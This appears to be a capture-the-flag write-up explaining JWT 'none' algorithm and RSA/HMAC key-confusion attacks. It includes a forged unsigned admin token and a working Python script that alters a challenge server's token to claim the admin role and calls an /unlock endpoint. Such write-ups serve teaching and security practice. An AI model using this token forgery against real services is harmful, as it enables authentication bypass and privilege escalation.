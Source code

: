 ### JWT No algorithm Attack

Some libraries treat the `none algorithm` as a valid token with a verified signature. Therefore, anyone would be able to create their own verified JWT with their payload with an empty signature.
The JWT token would look something like this
`eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6Im1pbmlvbiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYwNzQyMzgwM30.`

### JWT Downgrade Attack

CONFUSIONN!!!! When the token is signed with RSA, and the server expects a token signed with RSA but receives a token signed with HMAC, they would
think the public key is the secret key. Therefore by using the public key which is accessible to everyone to verify the token we can use it as the secret key and the
server would think that it is a valid JWT.

### Read more here

To read more go [here blog](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/) and [here video](https://www.youtube.com/watch?v=wt3UixCiPfo)


Please scroll down to the **Actual Exploit** if you do not want to read my dumb mistakes and skip to the actual exploit :)

# Exploiting

Since the website runs on http and not https we were not able to get the public key, that the JWT downgrade attack needed (yes, my dumb ass did not see the source code properly).
Hence, i procedeed into testing out the none algorithm attack. using the [python JWT library], i created my own JWT with the given payload and change user role to admin. 
Since it does not rely on an algorithm, it does not require a key/password. 

```py
import requests 
import json
import jwt, token
import base64

proxies = {
    "http" : "http://127.0.0.1:8080/"
}

url = 'http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/login'
myobj = {"username":"minion","password":"banana"}
x = requests.post(url, data = myobj)

jwt_token = x.text[16:-2]
split_token = jwt_token.split('.')
token = split_token[1]

payload = str(base64.b64decode(token + "=="))
iat = payload[43:-2]

new_payload = '{ "username": "minion", "role": "admin", "iat": ' + iat + ' }'
encoded_jwt = str(jwt.encode(json.loads(new_payload), key='', algorithm='none'))
encoded_jwt = encoded_jwt[2:-1]

new_url = 'http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/unlock'
authentication = "Bearer " + encoded_jwt
headers = {'User-Agent':'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0', "Accept": "*/*", "Host": "yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/", "Authorization": authentication}
new_request = requests.get(new_url, headers = headers)
```